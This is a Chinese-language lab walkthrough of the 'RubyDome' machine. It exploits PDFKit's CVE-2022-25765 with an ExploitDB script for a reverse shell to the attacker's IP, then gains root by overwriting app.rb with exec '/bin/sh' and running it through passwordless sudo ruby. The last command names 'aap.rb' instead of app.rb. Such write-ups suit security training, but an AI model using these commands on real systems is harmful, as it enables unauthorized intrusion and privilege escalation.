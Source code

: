 ```yaml
---
description: Linux - Easy：PDFKit
---
```


# ✔️ RubyDome

## 建立立足点

### 信息枚举

使用Nmap进行开放端口扫描，获得2个开放端口：22和3000

<figure><img src="../.gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例的“兔子洞”：

<img src="../.gitbook/assets/3 (2).png" alt="" data-size="original">
{% endhint %}

查看3000端口上的Web页面，发现目标是一个可将HTML页面转换为PDF格式的应用：

<figure><img src="../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

尝试随意输入一个URL（http://127.0.0.1），来触发目标应用抛出错误信息，以进一步收集信息：

<figure><img src="../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

查找关于PDFKit相关的已知、公开漏洞，得到：

<figure><img src="../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

本例中，虽为从错误信息中看到任何版本号，但是从初步查找到的公开漏洞的描述信息可得知CVE-2022-25765是针对PDFKit 0.0.0到0.8.7.2版本都适用的，因此可以尝试。

<figure><img src="../.gitbook/assets/7 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

```bash
// 在ExploitDB中查找利用脚本：
searchsploit PDFKit
// 下载利用脚本到Kali本地：
searchsploit -m 51293.py .
```

<figure><img src="../.gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

查看该脚本的使用方法，供后续构造命令：

<figure><img src="../.gitbook/assets/10 (2).png" alt=""><figcaption></figcaption></figure>

* 参数 -s：设置Kali本机IP和监听的端口
* 参数 -w：设置目标地址和路径（查看目标页面的HTML源码）
* 参数 -p：设置POST的具体参数（查看目标页面的HTML源码）

<figure><img src="../.gitbook/assets/9 (2).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

```bash
// 在Kali上监听端口：
nc -lvnp 4444
// 在Kali中运行利用脚本：
python3 51293.py -s 192.168.45.234 4444 -w http://192.168.225.22:3000/pdf -p url
```

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 提升权限

### 本地信息枚举

针对本机进行初步的信息枚举：

```bash
// 简单枚举，若无收获就换工具：
uname -a
find / -perm -u=s -type f 2>/dev/null
sudo -l
```

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

通过查找目标系统上所有由root用户拥有且设置了SUID位的普通文件，和查看当前用户andrew不需要密码就可以执行的文件/命令，可得出：**当前用户可以在无需密码的情况下，使用sudo ruby来运行app.rb文件**

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

在GTFOBINS 发现可以使用 ruby​​ 获取 shell。

### 漏洞利用

进入到app.rb文件所在的文件夹，查看其权限，可得知当前用户andrew有权写入文件内容：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

在写入payload之前，先备份一个app.rb.bak文件，再写入payload：

```bash
// 备份:
cp app.rb app.rb.bak
// 写入payload:
echo 'exec "/bin/sh"' > app.rb
```

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

```bash
// 用sudo和ruby运行已重新修改的app.rb文件：
sudo /usr/bin/ruby /home/andrew/app/aap.rb
```

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

